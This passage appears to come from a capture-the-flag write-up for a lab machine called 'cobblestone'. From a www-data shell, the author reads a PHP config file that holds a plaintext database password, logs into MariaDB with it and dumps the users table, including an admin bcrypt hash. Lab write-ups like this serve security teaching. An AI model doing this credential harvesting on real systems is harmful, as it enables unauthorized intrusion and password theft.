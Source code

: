 There we go! We are in the `www-data` user.

After going around, we found this `connection.php` file.

```bash
www-data@cobblestone:/var/www/vote/db$ cat connection.php 
<?php

$dbserver = "localhost";
$username = "voteuser";
$password = "thaixu6eih0Iicho]irahvoh6aigh>ie";
$dbname = "vote";

$conn = new mysqli($dbserver, $username, $password, $dbname);

// Check connection
if ($conn->connect_errno > 0) {
    die("Connection failed: " . $conn->connect_error);
}
```

Let's check out with `mysql` to see what we can find.

```bash
www-data@cobblestone:/var/www/vote/db$ mysql -h 127.0.0.1 -u voteuser -p'thaixu6eih0Iicho]irahvoh6aigh>ie'                    p'
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 70
Server version: 10.11.11-MariaDB-0+deb12u1-log Debian 12

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| vote               |
+--------------------+
2 rows in set (0.001 sec)

MariaDB [(none)]> use vote;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [vote]> show tables;
+----------------+
| Tables_in_vote |
+----------------+
| users          |
| votes          |
+----------------+
2 rows in set (0.001 sec)

MariaDB [vote]> select * from users;
+----+----------+-----------+----------+------------------------+--------------------------------------------------------------+
| id | Username | FirstName | LastName | Email                  | Password                                                     |
+----+----------+-----------+----------+------------------------+--------------------------------------------------------------+
|  1 | admin    | Admin     |          | cobble@cobblestone.htb | $2y$10$6XMWgf8RN6McVqmRyFIDb.6nNALRsA./u4HAF2GIBs3xgZXvZjv86 |
```